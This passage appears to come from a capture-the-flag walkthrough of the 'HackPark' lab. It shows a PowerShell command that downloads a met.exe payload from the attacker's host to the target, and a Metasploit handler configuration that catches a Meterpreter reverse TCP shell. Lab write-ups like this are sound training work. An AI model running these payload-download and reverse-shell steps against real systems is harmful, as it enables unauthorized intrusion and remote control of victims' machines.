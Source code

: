 Once the server is up and running, we can download the met.exe payload to the target machine using either powershell or certutil:

```
powershell -c "invoke-webrequest -Uri 'http://{$LHOST}:8000/met.exe' -OutFile 'C:\Windows\Temp\met.exe'"
```

![image](images/hackpark-11-B.png)

In order to run our met.exe via Metasploit we run the following:

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp 
set LHOST tun0
set LPORT 9002
run
```

![image](images/hackpark-12.png)
